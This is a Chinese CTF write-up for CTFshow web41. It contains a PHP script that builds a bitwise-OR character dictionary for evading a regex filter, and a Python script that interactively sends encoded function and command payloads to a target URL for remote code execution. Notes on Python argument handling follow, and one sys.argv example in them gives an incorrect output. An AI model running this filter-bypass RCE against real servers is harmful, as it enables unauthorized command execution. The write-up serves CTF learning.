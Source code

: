 ```yaml
---
​---
title: CTFshow_web41
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: CTF
categories: CTF
​---
---
```


# CTFshow_web41

> 参考
>
> https://blog.csdn.net/miuzzx/article/details/108569080
>
> https://wp.ctf.show/d/137-ctfshow-web-web41
>
> https://blog.csdn.net/qq_45758851/article/details/115188556



- rce_or.php

  ```php
  <?php
      $myfile=fopen("rce_or.txt","w");
      $contents="";
      for($i=0;$i<256;$i++){
          for($j=0;$j<256;$j++){
              if($i<16){
                  $hex_i='0'.dechex($i);
              }
              else{
                  $hex_i=dechex($i);
              }
              if($j<16){
                  $hex_j='0'.dechex($j);
              }
              else{
                  $hex_j=dechex($j);
              }
              $preg='/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
              if(preg_match($preg,hex2bin($hex_i))||preg_match($preg,hex2bin($hex_j))){
                  echo "";
              }
              else{
                  $a='%'.$hex_i;
                  $b='%'.$hex_j;
                  $c=(urldecode($a)|urldecode($b));
  //                此处范围是将按位或运算得到的字符限定在可见字符范围内
                  if(ord($c)>=32&&ord($c)<=126){
                      $contents=$contents.$c." ".$a." ".$b."\n";
                  }
              }
          }
      }
      fwrite($myfile,$contents);
      fclose($myfile);
  ?>
  ```

- poc.py

  ```python
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-
  
  import requests
  import urllib
  from sys import *
  import os
  os.system("php rce_or.php")
  if(len(argv)!=2):
      print("="*50)
      print('USER: python exp.py <url>')
      print("eg:   python exp.py http://ctf.show/")
      print("="*50)
      exit(0)
  url=argv[1]
  def action(arg):
      s1=""
      s2=""
      for i in arg:
          f=open("rce_or.txt","r")
          while True:
              t=f.readline()
              if t=="":
                  break
              if t[0]==i:
                  # print(i)
                  s1+=t[2:5]
                  s2+=t[6:9]
                  break
          f.close()
      output="(\""+s1+"\"|\""+s2+"\")"
      return(output)
  
  while True:
      param=action(input("\n[+] your function: "))+action(input("[+] your command: "))
      print('\n',param)
      
      data={
          'c':urllib.parse.unquote(param)
      }
      print(data)
  
      r=requests.post(url,data=data)
      print("\n[*] result:\n"+r.text)
  ```

- php脚本说明

  作用:用未被过滤字符按位或`|`运算得到一个可见字符字典

  - hex2bin()![image-20210521213715481](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210521213715481.png)
  - urldecode()![image-20210521213757308](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210521213757308.png)
  - 

- py脚本说明

  - ```python
    from sys import *
    import sys
    ```

    以上两个区别在于,前者在脚本中能直接调用sys函数,后者需要加上`sys.`前缀,因此可以直接调用argv

  - sys.argv[]用法简明阐述

    ```python
    #test.py
    import sys
    ro=sys.argv[0]
    print(ro)
    ```

    终端运行该脚本打印出的是当前脚本的绝对路径

    ```python
    #test.py
    import sys
    ro=sys.argv[1]
    print(ro)
    ```

    终端运行`python3 test.py rollinon`终端会输出`rollinon`

    ```python
    #test.py
    import sys
    ro=sys.argv[2:]
    print(ro)
    ```

    终端运行`python3 test.py 1 2 3 4 5 6`终端会输出`['2', '3', '4', '5']`

    即sys.argv[]实质上为一个列表,记录用户终端输入的参数

  - python函数参数中arg,*args,**kwargs的区别

    - arg为对应位置的参数
    - *arg用来将可变参数打包成tuple(元组)给函数体调用
    - **kwargs用来将关键字参数打包成dict(字典)给函数体调用

    在*Python*中一种可以使用5种*传递参数的形式*(位置*参数*、默认*参数*、变长*参数*、关键字*参数*、命名关键字*参数*) 

  - urllib.parse.unquote()

    按照标准，URL只容许一部分ASCII字符，其余字符（如汉字）是不符合标准的，此时就要进行编码。

- 做题中遇到的问题

  题中Hackbar手动提交Payload时用Burp抓包![image-20210521212233447](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210521212233447.png)会发现浏览器会再次编码,导致错误

  因此需要从Burp中提交![image-20210521212420267](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210521212420267.png)

